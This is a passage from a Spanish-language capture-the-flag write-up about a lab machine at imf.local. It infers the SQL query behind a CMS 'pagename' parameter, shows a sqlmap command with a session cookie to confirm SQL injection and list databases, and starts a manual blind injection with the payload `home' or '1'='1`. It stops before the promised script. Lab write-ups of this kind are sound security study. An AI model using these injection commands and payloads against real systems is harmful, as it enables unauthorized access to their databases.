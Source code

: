 Entonces podemos deducir que por detrás está ocurriendo una consulta tal que así.
```sql
SELECT * FROM pages WHERE pagename=INPUT;
```

Si no se realiza ninguna sanitización del input del usuario significaría que esto es vulnerable a una inyección SQL.

Con `sqlmap` podemos verificar que efectivamente es vulnerable a SQL Injection y podemos enumerar la base de datos.
```console
sqlmap --level=5 --risk=3 -u "http://imf.local/imfadministrator/cms.php?pagename=*" --cookie="PHPSESSID=3gt7u1sgr34ec45qdvpctjrbn6" --dbs
```
![Write-up Image](images/Screenshot_16.png)

## Manual Blind SQL Injection (python scripting)
Con esto podríamos continuar con nuestro CTF, pero vamos a hacer una explotación manual ya que llevo bastante tiempo sin hacer un CTF y aquí lo que queremos es calidad.

Con el payload `home' or '1'='1` nos devuelve la página `home`, por lo cual es una consulta válida, por detrás se debe de ver así.
![Write-up Image](images/Screenshot_17.png)
